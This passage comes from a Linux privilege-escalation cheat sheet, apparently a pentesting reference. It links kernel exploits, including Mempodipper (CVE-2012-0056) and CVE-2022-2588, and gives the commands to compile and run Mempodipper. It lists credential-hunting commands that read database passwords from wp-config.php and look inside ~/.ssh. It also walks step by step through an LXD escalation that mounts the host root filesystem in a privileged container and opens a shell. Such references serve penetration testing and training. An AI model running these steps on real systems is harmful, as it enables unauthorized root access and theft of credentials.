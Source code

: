 Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)

```
https://www.exploit-db.com/exploits/15704/
```

### CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

{% embed url="https://www.exploit-db.com/exploits/18411" %}

{% embed url="https://www.exploit-db.com/exploits/35161" %}

```bash
 gcc mempodipper.c -o mempodipper
 ./mempodipper
```

### CVE-2022-2588

{% embed url="https://github.com/Markakd/CVE-2022-2588" %}

## Credential Hunting

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
ls ~/.ssh
```

## Privileged Groups

### LXC/LXD

{% embed url="https://academy.hackthebox.com/module/51/section/477" %}

The privesc requires to run a container with elevated privileges and mount the host filesystem inside.

```bash
╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# import the image
lxc image import ./alpine.tar.gz --alias myimage

# run the image
lxc init myimage r00t -c security.privileged=true

# mount the /root into the image
lxc config device add r00t mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start r00t
lxc exec r00t /bin/sh
```
